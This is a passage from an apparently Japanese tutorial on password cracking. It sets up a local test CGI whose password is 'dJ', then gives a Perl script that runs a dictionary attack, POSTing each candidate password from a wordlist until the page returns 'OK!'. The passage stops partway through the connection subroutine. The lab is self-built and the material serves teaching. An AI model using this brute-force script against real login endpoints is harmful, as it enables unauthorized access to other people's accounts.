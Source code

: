 　パスワードは"dJ"とします(dictionaryA.txt のちょうど100行目にあります)。
正しいパスワードが入力されたら"OK!"という文字列を出力し、そのほかはすべて
"NO!"という文字列を出力するようにしています。このCGIをパスワードクラック
のターゲットとします。では今度は攻撃するプログラムをかきます。

```pl
\#!/usr/bin/perl

use Socket;

\#-- 初期設定
$server \= 'localhost';
$path   \= '/target.cgi';

open(FILE, $ARGV[0]) or die "file open error!\n";

while( $line \= <FILE> ){
	chomp($line);
	$body \= 'pwd\=' . $line;
	$len  \= length($body);

	\#-- データ作成
	$data  \= "POST $path HTTP/1.1\n";
	$data .\= "Host: localhost\n";
	$data .\= "Content-Length: $len\n";
	$data .\= "\n";
	$data .\= $body;

	\#-- 改行を"\r\n"に変更
	$data \=\~ s/\x0D\x0A|\x0D|\x0A/\r\n/g;

	\#-- 接続処理
	if((Connect($server, 'http', 'tcp', 80)) !\= 0){
		print "Connect ERROR!\n";
		exit;
	}

	\#-- 送信
	print SOCK "$data";

	\#-- レスポンスを受け取る
	while($res \= <SOCK>){
		$res \=\~ s/\x0D\x0A|\x0D|\x0A/\n/g;
		if($res \=\~ /<p>OK!<\/p>/){
			print "SUCCESS! \n" . "Passwd is $line.\n";
			exit;
		}
		if($res \=\~ /<\/html>/) { last; }
	}
	close(SOCK); select(STDOUT);
}

close(FILE);
exit;


\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\# Connect サブルーチン
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
sub Connect{

	my($port, $struct);

	if(($port \= getservbyname($_[1], $_[2])) \=\= NULL){
```